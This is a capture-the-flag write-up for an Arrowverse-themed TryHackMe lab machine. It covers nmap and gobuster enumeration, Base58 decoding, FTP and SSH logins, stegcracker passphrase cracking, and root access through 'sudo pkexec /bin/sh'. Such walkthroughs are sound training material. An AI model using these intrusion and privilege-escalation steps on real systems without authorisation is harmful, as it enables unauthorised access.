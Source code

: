## Target IP: 10.10.235.235

---

### Environment Variables

```bash
export IP=10.10.235.235
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.2 |
| 22 | SSH | OpenSSH 6.7p1 |
| 80 | HTTP | Apache httpd |
| 111 | rpcbind | v2-4 |

---

### Web Enumeration

Visited: `http://$IP`

→ Arrowverse-themed page

→ Source code: nothing useful

---

### Directory Brute Force

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Found:**

- `/island`

Visited `/island` → Page says:

```
Ohhh Noo, Don't Talk...............
I wasn't Expecting You at this Moment. I will meet you there
You should find a way to Lian_Yu as we are planed. The Code Word is:
```

Source code shows:

```
The Code Word is: <h2 style="color:white">vigilante</h2>
```

---

### Brute Force `/island`

```bash
gobuster dir -u http://$IP/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Found:** `/island/2100`

→ Displays YouTube clip

→ Source code:

```html
<!-- you can avail your .ticket here but how? -->
```

---

### Brute Force `.ticket` File

```bash
gobuster -t 100 dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP/island/2100 -x .ticket
```

Found `.ticket` file → Displays:

```
This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX
```

Decoded `RTy8yhBQdscX` in **CyberChef** (Base58) → Result:

```
[REDACTED]
```

---

### FTP Login

```bash
ftp $IP
# Username: vigilante
# Password: [REDACTED]
```

Logged in successfully.

```bash
ls -lsa
```

**Files:**

- Leave_me_alone.png
- Queen's_Gambit.png
- .other_user
- .bashrc

Downloaded all files.

---

### Exploring Downloaded Files

- `.other_user` → Text about **Slade Wilson**
- `.jpg` files → suspicious

---

### Steghide on Queen's_Gambit.png

```bash
steghide extract -sf Queen's_Gambit.png
# Asks for passphrase
```

Cracked with:

```bash
stegcracker Queen's_Gambit.png
# → password = [REDACTED]
```

Extracted file: `aa.jpg.out` (Zip file)

```bash
unzip aa.jpg.out
```

Extracted:

- `passwd.txt`
- `shado`

---

### Exploring `passwd.txt` and `shado`

- `passwd.txt` → Narrative about Lian_Yu
- `shado` → Contains password:

```
[REDACTED]
```

---

### SSH as Slade

```bash
ssh slade@$IP
# Password: [REDACTED]
```

Login successful.

---

### User Flag

```bash
cat user.txt
# → THM{[REDACTED]}
```

---

### Privilege Escalation

```bash
sudo -l
# → Can run pkexec as root
```

Used GTFOBins:

```bash
sudo pkexec /bin/sh
```

Got root shell.

---

### Root Flag

```bash
cat /root/root.txt
```

```
Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.

THM{[REDACTED]}
                                                                    --DEATHSTROKE
```
